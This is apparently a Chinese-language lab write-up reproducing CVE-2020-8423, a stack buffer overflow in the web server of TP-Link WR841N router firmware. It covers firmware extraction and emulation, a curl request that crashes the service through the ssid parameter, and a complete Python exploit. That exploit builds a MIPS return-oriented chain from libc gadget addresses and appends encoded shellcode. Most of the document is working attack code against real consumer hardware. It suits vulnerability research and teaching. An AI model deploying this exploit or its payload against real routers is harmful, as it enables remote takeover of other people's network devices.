

# TP-Link WR841N 栈溢出漏洞（CVE-2020-8423）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:mips`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/wr841nv10_wr841ndv10_en_3_16_9_up_boot(150310).bin"
```

需要先构建 buildroot 环境，交叉编译得到 `hook.so`，并将其复制到 `system-emu/tools`：

```sh
$ mips-buildroot-linux-uclibc-gcc -shared -fPIC hook.c -o hook.so
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh mips

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 192.168.2.2 admin/admin

# 漏洞利用
$ python3 tools/exp.py
```

## 漏洞复现

登陆后得到得到 cookie（如`%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D`）和 path（如`DHJSQKMAPYZXIIXB`）：

```sh
$ curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/DHJSQKMAPYZXIIXB/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
```



## Exploit

```py
#!/usr/bin/python2

from pwn import *
import requests
import socket
import socks
import urllib

SOCKS5_PROXY_HOST = '127.0.0.1'
SOCKS5_PROXY_PORT = 2345

default_socket = socket.socket
socks.set_default_proxy(socks.SOCKS5, SOCKS5_PROXY_HOST, SOCKS5_PROXY_PORT)
socket.socket = socks.socksocket
session = requests.Session()
session.verify = False

context.endian = 'big' 
libc_base = 0x77d2a000
sleep = 0x53CA0 #end 00053ECC

g1 = 0x000E204 #0x77F47204
#LOAD:0000E204                 move    $t9, $s1
#LOAD:0000E208                 jalr    $t9 ; sysconf
#LOAD:0000E20C                 li      $a0, 3
g2 = 0x00037470
#LOAD:00037470                 move    $t9, $s2
#LOAD:00037474                 lw      $ra, 0x28+var_4($sp)
#LOAD:00037478                 lw      $s2, 0x28+var_8($sp)
#LOAD:0003747C                 lw      $s1, 0x28+var_C($sp)
#LOAD:00037480                 lw      $s0, 0x28+var_10($sp)
#LOAD:00037484
#LOAD:00037484 loc_37484:
#LOAD:00037484                 jr      $t9 ; xdr_opaque_auth
#LOAD:00037488                 addiu   $sp, 0x28
g3 = 0x0000E904 #0x77f47904
#LOAD:0000E904                 addiu   $a1, $sp, 0x168+var_150
#LOAD:0000E908                 move    $t9, $s1
#LOAD:0000E90C                 jalr    $t9 ; stat64
#LOAD:0000E910                 addiu   $a0, (aErrorNetrcFile+0x28 - 0x60000)
g4 = 0x00374D8
#LOAD:000374D8                 move    $t9, $a1
#LOAD:000374DC                 sw      $v0, 0x4C($a0)
#LOAD:000374E0                 move    $a1, $a2
#LOAD:000374E4                 jr      $t9
#LOAD:000374E8                 addiu   $a0, 0x4C  # 'L'

shellcode  = "\x24\x0e\xff\xfd\x01\xc0\x20\x27\x01\xc0\x28\x27\x28\x06\xff\xff"
shellcode += "\x24\x02\x10\x57\x01\x01\x01\x0c\xaf\xa2\xff\xff\x8f\xa4\xff\xff"
shellcode += "\x34\x0e\xff\xff\x01\xc0\x70\x27\xaf\xae\xff\xf6\xaf\xae\xff\xf4"
shellcode += "\x34\x0f\xd8\xf0\x01\xe0\x78\x27\xaf\xaf\xff\xf2\x34\x0f\xff\xfd"
shellcode += "\x01\xe0\x78\x27\xaf\xaf\xff\xf0\x27\xa5\xff\xf2\x24\x0f\xff\xef"
shellcode += "\x01\xe0\x30\x27\x24\x02\x10\x4a\x01\x01\x01\x0c\x8f\xa4\xff\xff"
shellcode += "\x28\x05\xff\xff\x24\x02\x0f\xdf\x01\x01\x01\x0c\x2c\x05\xff\xff"
shellcode += "\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\xff\xfd\x01\xc0\x28\x27"
shellcode += "\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24\x0e\x3d\x28\xaf\xae\xff\xe2"
shellcode += "\x24\x0e\x77\xf9\xaf\xae\xff\xe0\x8f\xa4\xff\xe2\x28\x05\xff\xff"
shellcode += "\x28\x06\xff\xff\x24\x02\x0f\xab\x01\x01\x01\x0c"

s0 = p32(0x11111111)
s1 = p32(g2+libc_base)  # break 
s2 = p32(sleep+libc_base)

payload  = "/%0A"*0x55 + 2*'x' + s0 + s1 + s2
payload += p32(g1+libc_base)
payload += 'x'*28
payload += p32(g4+libc_base)    #s1
payload += p32(0x33333333)      #s2
payload += p32(g3+libc_base)    #ra
payload += 'x'*24
payload += shellcode

def exp(path,cookie):
    headers = {
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
                "Cookie":"Authorization=Basic{cookie}".format(cookie=str(cookie))}

    params = {
        "mode":"1000",
                "curRegion":"1000",
                "chanWidth":"100",
                "channel":"1000",
                "ssid":urllib.unquote(payload)
        }

    url="http://192.168.2.2:80/{path}/userRpm/popupSiteSurveyRpm_AP.htm".format(path=str(path))

    resp = session.get(url,params=params,headers=headers,timeout=10)
    print(resp.text)

exp("NOZFLHZBSLECXJQA","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```

## 参考链接

- <https://www.anquanke.com/post/id/203486>
- <https://www.anquanke.com/post/id/230259>
- <https://ktln2.org/2020/03/29/exploiting-mips-router>
